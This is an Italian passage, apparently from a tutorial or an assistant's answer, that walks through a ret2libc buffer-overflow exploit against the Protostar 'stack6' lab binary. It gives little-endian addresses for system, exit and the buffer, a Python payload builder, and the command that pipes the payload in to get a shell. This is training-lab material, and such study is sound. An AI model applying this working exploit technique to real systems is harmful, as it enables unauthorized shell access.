 È il momento di mettere tutto in uno script Python. Ricorda di convertire i tuoi indirizzi in formato **little-endian** (scrivendo i byte al contrario).

```python
system: 0xb7ecffb0
exit: 0xb7ec60c0
buffer: 0xbffffc8c

'''
buffer: \x8c\xfc\xff\xbf
system: \xb0\xff\xec\xb7
exit:  \xc0\x60\xec\xb7
'''

print('/bin//sh\x00' + 'a'*71 + '\xb0\xff\xec\xb7' +
      '\xc0\x60\xec\xb7' + '\x8c\xfc\xff\xbf')
```

**Lancio dell'attacco:**  

```bash
(cat /tmp/payload; cat) | /opt/protostar/bin/stack6

```
Il comando `(cat; cat)` invia prima il payload e poi mantiene aperto lo stream di input, permettendoti di interagire con la shell che si aprirà. Se tutto è stato fatto correttamente, vedrai comparire un prompt (`#` o `$`), segno che hai ottenuto il controllo del sistema.


Ottimi dubbi, sono esattamente i dettagli che fanno la differenza e dimostrano che stai capendo a fondo il processo! Risolviamoli uno per uno.

---